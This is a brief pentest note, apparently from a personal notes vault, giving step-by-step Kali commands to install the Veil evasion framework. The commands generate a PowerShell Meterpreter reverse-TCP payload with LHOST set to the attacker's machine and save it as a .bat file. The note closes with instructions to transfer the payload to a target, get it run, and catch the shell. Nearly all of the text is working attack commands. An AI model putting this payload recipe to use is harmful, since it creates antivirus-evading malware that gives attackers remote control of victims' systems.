 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

```bash - kali
sudo apt install veil
```

```bash - kali
veil
```

Next through all the prompts if setting up for the first time.

If told to, run:
```bash - kali
/usr/share/veil/config/setup.sh --force --silent
```

```bash - kali
use 1
```

```bash - kali
list
```

example: `powershell/meterpreter/rev_tcp.py`

```bash - kali
use 22
```

```bash - kali
set LHOST $KALI
```

```bash - kali
options
```

```bash - kali
generate
```

```bash - kali
reverseveil
```

```bash - kali
cp /var/lib/veil/output/source/reverseveil.bat .
```

[[APON/7._Tools/Metasploit#Meterpreter Listener 1 Liner]]

Transfer to target, get it ran, catch shell.






